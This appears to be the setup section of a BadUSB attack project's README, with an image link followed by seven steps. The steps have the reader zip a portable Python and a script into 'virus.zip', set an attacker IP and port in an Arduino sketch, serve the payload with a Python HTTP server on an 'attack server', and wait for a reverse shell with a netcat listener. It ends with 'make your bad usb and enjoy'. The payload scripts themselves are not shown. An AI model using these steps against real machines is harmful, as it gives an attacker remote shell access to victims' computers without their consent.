 1. Download a portable python
2. Add the script into it and zip it
3. Rename the zip virus.zip
4. Change the IP and the port in the .ino script
5. Launch `python -m http.server 8080` on the attack server
6. Run `nc -lvp 4444` on the attack server
7. Make your bad usb and enjoy